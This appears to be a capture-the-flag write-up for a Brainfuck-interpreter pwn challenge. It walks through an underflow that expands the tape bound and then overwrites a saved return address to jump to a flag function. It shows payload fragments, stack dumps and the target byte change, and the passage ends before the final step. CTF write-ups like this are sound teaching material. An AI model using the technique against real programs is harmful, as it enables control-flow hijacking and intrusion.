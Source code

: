 So, the idea is to use the underflow to increase the maximum address, then make an overflow and change the return address on the stack so that we land on the function to print the flag when the current function returns.

So breaking this down:

- Moving to the left to increase the maximum bound by ovewriting the variable on the stack

```elixir
+<+<+<+
```

- Then moving back to the right to start our journey down the stack (by going up...)

```elixir
>>>-
```

- Then we run this algorithm to find the first `nonzero` byte, since there's a lot of empty space down the stack (it's the vm's tape).

```elixir
+[>[<-]<[->+<]>]
```

- Then we move the IP to point to the cell right before the byte we want to modify 

```elixir
>>>>>>>>>>>>>>>
```

At this point, this will be the tape:

```
                  we are here
                      |
                      v  
10 d2 ff ff ff 7f 00 00 35 54 55 55 55 55 00 00 00 00 00 00 00 00 00 00
```

We are right next to the return address, I'll highlight it


```
                  we are here
                      |    return address here
                      v /-----------------------\
10 d2 ff ff ff 7f 00 00 |35 54 55 55 55 55 00 00| 00 00 00 00 00 00 00 00
```

Since it's little endian, it's not `35 54 55 55 55 55 00 00`, it's actually `0000555555555435`

Our objective is to increase that single byte from `0x35` to `0x66`, to that the return address points to the flag function

```
                  we are here
                      |
                      v  
10 d2 ff ff ff 7f 00 00 35 54 55 55 55 55 00 00 00 00 00 00 00 00 00 00
                         |
                         | just increase a little from 0x35 to 0x66
                         | 
                         v
10 d2 ff ff ff 7f 00 00 66 54 55 55 55 55 00 00 00 00 00 00 00 00 00 00

```
